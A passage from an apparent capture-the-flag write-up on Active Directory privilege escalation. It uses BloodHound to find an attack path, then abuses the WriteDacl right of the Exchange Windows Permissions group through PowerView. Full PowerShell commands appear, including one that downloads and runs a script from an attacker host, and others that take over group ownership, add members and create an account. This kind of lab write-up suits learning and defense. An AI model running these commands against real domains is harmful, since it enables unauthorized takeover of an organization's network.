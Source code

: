 And Bloodhound can be launched locally to take a look at possible privilege escalation paths:

1) `sudo neo4j console`
2) `bloodhound`

Once imported the data I looked for a connection between the account we already control, svc-alfresco, and the administrators group (only later I realized the DCSync pre-made query would have found a much more intuitive path). A path was quickly found:

![img](/images/writeup-forest/2.png)

---

## Exchange Windows Permissions Privilege Abuse

The group memberships of svc-alfresco allow the user to write data on to the group object Exchange Windows Permissions, which is a notoriously over-privileged domain group used by Microsoft Exchange to set up a new Exchange installation.

In order for the new installation to be deployed the domain needs to be tweaked, and so the installer needs write permissions over the domain. This has some serious security implications because any member of the Exchange Windows Permissions can write arbitrary data onto the domain and its child objects, such as the Administrator account shown in the graph.

Because the permission shown by Bloodhound is WriteDacl it means any member of the Exchange Windows Permissions group can change the DACL of any object contained in the domain, giving those users the ability of granting or revoking additional rights to themselves or other users. This is exactly what will allow us to escalate privileges.

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) is probably the best tool to manipulate AD objects, so let's load it into our PowerShell session:

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.144/PowerView.ps1")
```

Let's make ourselves owners of the Exchange Windows Permissions group object so that we can make changes to it:

```powershell
Set-DomainObjectOwner -Identity "Exchange Windows Permissions" -OwnerIdentity svc-alfresco
```

Now we can add ourselves to the group, granting us write permissions across the entire domain:

```powershell
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "svc-alfresco"
```

For the attack that I have in mind I'm going to need to create a new account to not mess up svc-alfresco's rights too much for other users, so first I create a password in SecureString format:

```powershell
$password = ConvertTo-SecureString "Password123!" -AsPlainText -Force
```

And then a new account is made with that password:

```powershell
New-DomainUser -SamAccountName Baudy -AccountPassword $password
```
